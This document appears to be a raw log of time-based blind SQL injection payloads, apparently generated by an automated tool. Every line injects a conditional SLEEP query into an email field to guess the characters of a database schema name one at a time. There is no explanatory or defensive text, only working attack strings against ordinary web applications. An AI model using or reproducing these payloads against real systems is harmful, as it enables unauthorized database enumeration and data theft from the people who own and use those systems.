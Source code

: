 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,3,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=102,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=111,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )>116,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=114,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 0,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}